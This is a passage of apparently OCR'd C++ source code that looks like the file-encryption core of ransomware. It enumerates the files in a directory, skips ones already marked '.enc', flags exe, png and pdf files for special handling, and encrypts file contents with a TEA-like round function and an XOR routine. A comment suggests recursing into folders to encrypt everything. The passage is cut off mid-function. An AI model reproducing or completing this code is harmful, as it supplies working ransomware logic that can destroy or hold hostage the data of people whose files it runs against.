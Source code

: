 ```C++
		if (file.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY) // if this is folder, then we continue. We only encrypt files, not folders
			continue;										  // but we can actually recursive call this function with this folder's name as the first param, to encrypt all data in it, too
		strcpy(szTmpPath, szPath);
		strcat(szTmpPath, "\\");
		strcat(szTmpPath, szFileName);
		unsigned int fileSize = (unsigned int)file.nFileSizeLow;
		encryptFunc(szTmpPath, fileSize);
	} while (FindNextFileA(hFind, &file));
	FindClose(hFind);
}

void encrypt1(unsigned int nRound, unsigned char v[ENC_BLOCK_SIZE], unsigned char key[KEY_SIZE])
{
	unsigned char v0 = v[0], v1 = v[1];
	unsigned int sum = 0, delta = 0x9E3779B9;
	for (unsigned int i = 0; i < nRound; ++i)
	{
		v0 += (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + key[sum % KEY_SIZE]);
		sum += delta;
		v1 += (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + key[(sum >> 11) % KEY_SIZE]);
	}
	v[0] = v0; v[1] = v1;
}

void encrypt2(unsigned char * data, unsigned int dataLength, unsigned char * key, unsigned int keyLength)
{
	for (unsigned int i = 0; i < dataLength; ++i)
	{
		data[i] = data[i] ^ key[i % keyLength];
	}
}

void encrypt(const char* szPath, unsigned int fileSize)
{
	const char* szSpecialTypes[3] = { "exe", "png", "pdf" };
	const char* szExt = getExtension(szPath);
	if (strcmp(szExt, "enc") == 0) // if this file is already encrypted, return
		return;
	bool bIsSpecial = false;
	for (int i = 0; i < sizeof(szSpecialTypes) / sizeof(szSpecialTypes[0]); ++i)
		if (strcmp(szExt, szSpecialTypes[i]) == 0)
			bIsSpecial = true;
	FILE* f = fopen(szPath, "rb");
	if (f == NULL)
	{
		err("[+] Cannot open file %s\n", szPath);
		return;
	}
	unsigned char* lpBuffer = (unsigned char*)malloc(fileSize);
	if (lpBuffer == NULL)
	{
		err("[+] Not enough memory\n");
		fclose(f);
		return;
	}
	unsigned int nRead = 0;
	while (nRead < fileSize)
	{
		int n = fread((void*)(lpBuffer + nRead), sizeof(unsigned char), MIN(FREAD_BLOCK_SIZE, fileSize - nRead), f);
```
